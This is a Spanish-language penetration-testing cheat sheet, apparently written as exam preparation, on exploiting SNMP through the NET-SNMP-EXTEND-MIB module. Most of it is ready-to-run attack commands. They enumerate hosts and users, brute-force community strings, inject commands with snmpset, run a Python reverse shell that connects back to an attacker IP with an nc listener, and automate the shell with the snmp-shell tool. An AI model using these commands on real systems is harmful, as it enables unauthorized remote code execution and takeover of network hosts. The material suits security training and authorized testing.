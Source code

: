 ## SNMP RCE Cheatsheet

Este documento resume cómo **detectar, enumerar y explotar vulnerabilidades de SNMP** que permiten ejecución remota de comandos a través del módulo **NET‑SNMP‑EXTEND‑MIB**.

---

### 1. Introducción

* **Servicio**: SNMP (Simple Network Management Protocol).
* **Versión afectada**: SNMPv2c con *community string* de escritura (`rwcommunity`).
* **Comportamiento clave**: El MIB `NET‑SNMP‑EXTEND‑MIB` permite registrar comandos que se ejecutan al leerlos (`run-on-read`).

> Si el atacante conoce la comunidad **de lectura** → puede enumerar info sensible.
> Si además conoce la comunidad **de escritura** → puede inyectar comandos y lograr **RCE**.

---

### 2. Enumeración inicial de SNMP

#### 2.1 Nmap 
* Find hosts with SNMP running and output them to a file:
```bash
sudo nmap -sU --open -p 161 <targetRange> -oG open-snmp.txt
```
* Bruteforcing community strings:
```bash
sudo nmap -sU -p 161 --script snmp-brute <ipAddr>
```
* Bruteforcing community strings with custom wordlist:
```bash
sudo nmap -sU -p 161 --script snmp-brute --script-args snmp-brute.communitiesdb=/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <ipAddr>
```
* Enumerate users on remote machine:
```bash
sudo nmap -sU -p 161 --script snmp-win32-users <ipAddr>
```
* Enumerate services on remote machine:
```bash
sudo nmap -sU -p 161 --script snmp-win32-services <ipAddr>
```
* Run all SNMP-related Nmap Scripts:
```bash
sudo nmap -sU -p 161 --script snmp-* <ipAddr> -oG nmap/snmp.txt
```

#### 2.2 Enumerar con `snmpwalk`

* Enumeración básica con community pública
```bash
snmpwalk -v2c -c public <host>
```
* Enumerar usuarios del sistema
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.4.1.77.1.2.25
```
* Enumerar procesos
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.4.2.1.2
```
* Enumerar software instalado
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.6.3.1.2
```

#### 2.3 Identificar strings de comunidad

* Intentar con: `public`, `private`, `manager`.
* Herramienta útil:

* Fuerza bruta de comunidades con onesixtyone
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```
---

```bash
onesixtyone -c dict.txt <host>
```

Si --> `rwcommunity`, avanzar a RCE.

---

### 3. Explotación: SNMP RCE con `NET‑SNMP‑EXTEND‑MIB`

#### 3.1 Crear un comando remoto con `snmpset`

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."testcmd"' = createAndGo \
 'nsExtendCommand."testcmd"' = /bin/echo \
 'nsExtendArgs."testcmd"' = 'hola mundo'
```

* `nsExtendStatus` → crea la entrada.
* `nsExtendCommand` → comando a ejecutar.
* `nsExtendArgs` → argumentos.

#### 3.2 Ejecutar y verificar

```bash
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Esto dispara la ejecución y muestra la salida.

#### 3.3 Reverse shell manual

* Ejemplo con Python:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."shell"' = createAndGo \
 'nsExtendCommand."shell"' = /usr/bin/python3 \
 'nsExtendArgs."shell"' = '-c "import socket,os,pty;s=socket.socket();s.connect((\"<mi_IP>\",<mi_puerto>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
* Dispara la ejecución
```bash
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

* Receptor:

```bash
nc -lvnp <puerto>
```
---

### 4. Explotación automática con snmp-shell

#### 4.1 Instalación

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell.git
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

#### 4.2 Uso

```bash
python3 snmp-shell.py -t <host> -c <rwcommunity>
```

Obtendrás una shell interactiva vía SNMP.

---

### 5. Cheatsheet Resumido

| Etapa | Acción                      | Comando                                                                                         |
| ----- | --------------------------- | ----------------------------------------------------------------------------------------------- |
| 1     | Descubrir puerto UDP SNMP   | `nmap -sU -p 161 <host>`                                                                        |
| 2     | Enumerar info SNMP          | `snmpwalk -v2c -c public <host>`                                                                |
| 3     | Descubrir community strings | `onesixtyone -c dict.txt <host>`                                                                |
| 4     | Crear comando remoto        | `snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c rwcomm <host> 'nsExtendStatus."test"'=createAndGo ...` |
| 5     | Ejecutar comando            | `snmpwalk -v2c -c rwcomm <host> NET-SNMP-EXTEND-MIB::nsExtendObjects`                           |
| 6     | Reverse shell               | Inyectar comando con Python + ejecutar `snmpwalk`                                               |
| 7     | Exploitar con snmp-shell    | `python3 snmp-shell.py -t <host> -c rwcomm`                                                     |

---

### 6. Tabla OIDs

| OID | Descripcion |
|-----|-------------| 
| 1.3.6.1.2.1.1 | Informacion general |
| 1.3.6.1.4.1.77.1.2.25 | Usuarios | 
| 1.3.6.1.4.1.77.1.2.3 | Recursos Compartidos |
| 1.3.6.1.2.1.25.2.3.1.4 | Unidades de almacenamiento |
| 1.3.6.1.2.1.25.4.2.1.2 | Programas en ejecucion | 
| 1.3.6.1.2.1.25.1.6.0 | Procesos del sistema |
| 1.3.6.1.2.1.25.4.2.1.4 | Process path |
| 1.3.6.1.2.1.25.6.3.1.2 | Software instalado |
| 1.3.6.1.2.1.4.20.1.1 | IPs configuradas | 
| 1.3.6.1.4.1 | String texto plano |
| 1.3.6.1.2.1.6.13.1.3 | Puertos TCP |


✅ **Checklist en examen**:

1. ¿Puerto 161 abierto? → Enumerar.
2. ¿Community de lectura? → Extraer información.
3. ¿Community de escritura? → Intentar RCE con `snmpset`.
4. ¿Necesito shell? → Payload Python + `snmpwalk`.
5. Automatizar si es posible con `snmp-shell`.

